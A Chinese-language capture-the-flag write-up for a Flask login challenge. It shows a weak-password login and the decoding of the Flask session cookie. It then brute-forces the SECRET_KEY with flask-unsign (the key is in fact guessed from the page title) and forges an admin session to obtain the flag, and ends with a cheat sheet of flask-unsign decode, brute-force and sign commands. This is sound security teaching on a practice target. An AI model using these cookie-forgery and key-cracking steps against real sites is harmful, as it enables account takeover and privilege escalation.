




# Stage1 · FlaskLogin

这道题强调这是一个用 Flask 做的站点。



## 登录

页面提示「`guest / 123456` 之类的弱口令可能还在」。

试了 `123456` 不行，换 `guest123` 进去了。

登录后是普通用户空间：



页面提示：

> **试试看看你的「身份」是怎么被网站记住的？（F12 → Application → Cookies，那个 session cookie 引起了我的注意）**

!!! note "Firefox 里 Cookie 在哪"

    **Firefox 的 Cookie 在「存储」(Storage) 面板里，不在「应用程序」里。**
    
    Chrome：Application → Cookies
    Firefox：存储 → Cookie

## 看 Cookie

看到 `session` 的值是：

```text
eyJ1c2VyIjoiZ3Vlc3QifQ.atybFQ.0due7kkk3LdRwoQPSckRCSMWv88
```

**注意：只有第一段是 base64，整条不是。**

把第一段 `eyJ1c2VyIjoiZ3Vlc3QifQ` 拿去 base64 解码：

```json
{"user":"guest"}
```

得到身份就是这一小段 JSON。

## 认出格式

整条值长这样：

```text
eyJ1c2VyIjoiZ3Vlc3QifQ . atybFQ . 0due7kkk3LdRwoQPSckRCSMWv88
└───── 数据 ─────┘    └时间戳┘  └──────── HMAC 签名 ────────┘
```

**这是 Flask 默认的签名 session 格式：**

```text
base64(JSON) . base64(时间戳) . base64(HMAC-SHA1)
```

**签名是拿 `SECRET_KEY` 对整个 `数据.时间戳` 算出来的。**

## 直接改 user 为 admin？不行

**把 `{"user":"guest"}` 改成 `{"user":"admin"}` 再 base64 回去，塞进 Cookie —— 会被弹回登录页（302）。**

**因为签名是对内容算的，内容一改，签名就对不上，服务端直接判无效。**

**所以要改身份，必须先拿到 `SECRET_KEY`，自己重新签一个。**

## 找 SECRET_KEY

先用 flask 工具爆破字典：

```powershell
python -m pip install flask-unsign -i https://pypi.tuna.tsinghua.edu.cn/simple

'secret','dev','changeme','ctf2026' | Set-Content wl.txt
python -m flask_unsign --unsign --cookie "eyJ1c2VyIjoiZ3Vlc3QifQ.atybFQ.0due7kkk3LdRwoQPSckRCSMWv88" --wordlist wl.txt
```

**同时注意到页面上的 `ctf2026`（登录页标题 `🔑 ctf2026`）—— 拿它当 secret 一试就中。**

## 重新签名



```powershell
python.exe -m flask_unsign --sign --cookie "{'user': 'admin'}" --secret ctf2026
```

**注意 `--cookie` 用的是 **Python 字典语法**（单引号），不是 JSON。**

输出一条新的：

```text
eyJ1c2VyIjoiYWRtaW4ifQ.atyPOw.5-D0uOFDLKt18mszGkl5W9CVBGE
```

**把它整个替换掉 Cookie 里的 `session` 值，刷新。**

!!! warning "两个常见坑"

    **① 密钥别打错**：`ctf2026` 是 7 个字符，写成 `ctf20206` 就废了。
    
    **② 替换的是整条**（三段都要），不是只换第一段。

## 拿到 flag



```text
flag{fl4sk_s3ss10n_1s_n07_s3cur3}
```

## 这题的完整链路

```text
① 弱口令登录        guest / guest123
② 观察 session      eyJ1c2VyIjoiZ3Vlc3QifQ.atybFQ.xxx
③ 解码第一段        {"user":"guest"}
④ 认出格式          base64(数据) . 时间戳 . HMAC 签名   ← Flask
⑤ 直接改内容        ❌ 302（签名校验失败）
⑥ 找 SECRET_KEY     页面标题 ctf2026 / flask-unsign 爆破
⑦ 自己重新签名      flask-unsign --sign --cookie "{'user':'admin'}" --secret ctf2026
⑧ 替换整条 Cookie   → 👑 Welcome, admin → flag
```

## 知识点

**这题的核心是区分两件事：**

| 情况 | 能不能改 |
|---|---|
| Cookie 里存**明文身份** | ✅ 随便改（和前面米米那题第四关一样） |
| Cookie 里存**签名过的身份** | ❌ 改了签名就废，除非拿到密钥 |

**Flask 的 session 属于第二种 —— 默认用 `SECRET_KEY` 做 HMAC-SHA1 签名。**

**所以「Flask 站点 + session cookie」这个组合，标准套路就是：**

```text
先试着解码 → 认出 .时间戳.签名 三段式 → 上 flask-unsign
```

## 工具备忘

```powershell
# 只看内容,不需要密钥
python -m flask_unsign --decode --cookie "eyJ..."

# 爆破密钥
python -m flask_unsign --unsign --cookie "eyJ..." --wordlist wl.txt

# 用已知密钥伪造
python -m flask_unsign --sign --cookie "{'user':'admin'}" --secret ctf2026
```
